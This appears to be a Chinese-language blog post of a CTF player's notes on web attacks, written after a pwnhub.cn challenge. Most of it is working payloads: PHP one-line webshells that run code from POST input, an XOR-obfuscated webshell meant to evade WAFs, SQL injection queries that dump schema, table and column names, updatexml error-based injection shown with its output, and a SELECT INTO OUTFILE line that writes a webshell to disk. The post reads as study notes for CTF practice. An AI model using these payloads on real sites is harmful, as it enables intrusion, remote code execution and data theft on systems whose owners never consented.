```yaml
---
layout: post
title: WEB知识汇总贴
categories: [WEB]
description: WEB知识汇总贴
keywords: WEB
---
```


今天怼了一道pwnhub.cn的pwn题，然后那道pwn题最终是要利用一个sql注入。。然后今天学了各种WEB姿势，先开个帖，以后碰到以后总结

## 文件包含漏洞

典型值

```
index.php?page=xxx;
xxx可能是md5、也可能是文件名
文件包含漏洞可以直接读各种文件，也可以怼php伪协议执行任意php代码，上传webshell
```

## webshell的各种姿势

#### 各种一句话木马

```php
<?php echo system($_POST[1]);?>
---
POST 1=ls /home/ctf

<?php eval($_POST[1]);?>
<?php eval($_POST['passwd']);?> 
可以用菜刀直接连

<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[shell])?>');?>
可以改变木马等输出路径、也可以利用解析漏洞去解析木马

```

还有各种混淆版本，绕过waf，如

```php
<?php @$_++;
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");         // $__的值为_POST
@${$__}[!$_](${$__}[$_]);?>

```

也可以base64等各种编码解码。参考资料：

* http://www.91ri.org/11494.html
* http://www.mamicode.com/info-detail-1466690.html
* http://www.shangxueba.com/jingyan/1617540.html

菜刀不管用可以手动测试分析问题，有时候菜刀就是不管用

## 各种SQL注入

### 爆数据库名、表名、列名

```
select concat(group_concat(distinct schema_name)) from information_schema.schemata
select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=十六进制数据库名
select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=十六进制数据库名 and table_name=十六进制表名

```

### 报错注入 

如果能够回显SQL的错误信息，则可以通过报错注入爆各种想爆的信息

```
select * from TOKENS where PASSWORD = 1 and (updatexml(0x3a,concat(1,(select user())),1))
---
ERROR 1105 (HY000): XPATH syntax error: 'pwnhub@localhost'

```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select @@secure_file_priv)),1))));
---
ERROR 1105 (HY000): XPATH syntax error: '/var/lib/mysql-files/'
```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x646174657769746866697265)),1))))
---
ERROR 1105 (HY000): XPATH syntax error: 'BID,TOKENS'

```

更多详见http://www.cnblogs.com/Dleo/p/5493782.html

### SQL盲注

#### bool 盲注

### 利用SQL注入上传一句话木马

```
SELECT '<?php eval($_POST[1]);?>' INTO OUTFILE '/tmp/shell.php'

```
能否上传成功取决于select @@secure_file_priv的值，如果为空则在mysql层面上不做访问控制，如果为某目录则只能写到该目录中

```
select @@secure_file_priv
```

## 其他基础知识

### MYSQL相关

```
CREATE USER 'username'@'host' IDENTIFIED BY 'password';
grant all privileges on *.* to pwnhub@localhost
```
